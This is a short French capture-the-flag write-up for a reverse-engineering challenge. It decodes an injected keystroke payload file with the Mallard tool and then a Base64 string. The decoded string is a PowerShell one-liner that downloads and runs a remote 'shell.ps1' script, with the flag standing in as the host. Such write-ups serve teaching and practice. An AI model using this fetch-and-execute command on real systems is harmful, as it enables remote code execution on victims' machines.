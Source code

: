 # Write-up – Reverse Challenge

## Introduction

Ce challenge de reverse engineering consiste à extraire un **flag** caché dans un fichier binaire (`inject.bin`). Le processus de résolution comporte deux  étapes : l'utilisation de l'outil **Mallard** pour décoder le binaire, puis le décodage d'une **chaîne Base64** extraite.

---

## Étape 1 : Décodage du fichier `inject.bin`

Le fichier `inject.bin` contient des données encodées.
Pour décoder ce fichier, nous allons utiliser l'outil open-source [Mallard](https://github.com/dagonis/Mallard).

### Procédure :
1. Ouvrir un **terminal PowerShell**.
2. Cloner le dépôt GitHub de Mallard :
   ```bash
   git clone https://github.com/dagonis/Mallard
    ```
3. Entrer la commande :
    ```bash
   python3 mallard -f <path_to_file_inject.bin>
    ```

## Étape 2 : Décodage de la chaîne Base64

Le contenu obtenu contient une chaîne encodée en Base64.
   ```bash
   SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMjRIe1QwdXRfM3N0X0NAc3MzfS9zaGVsbC5wczEnKQ==
```
On peut utiliser le site [CyberChef](https://gchq.github.io/CyberChef/) pour décoder la chaine.
On peut alors trouver le flag dans la chaine décodée.
   ```bash
   IEX (New-Object Net.WebClient).DownloadString('http://24H{T0ut_3st_C@ss3}/shell.ps1')
```

## Flag

Le flag est : ```24H{T0ut_3st_C@ss3}```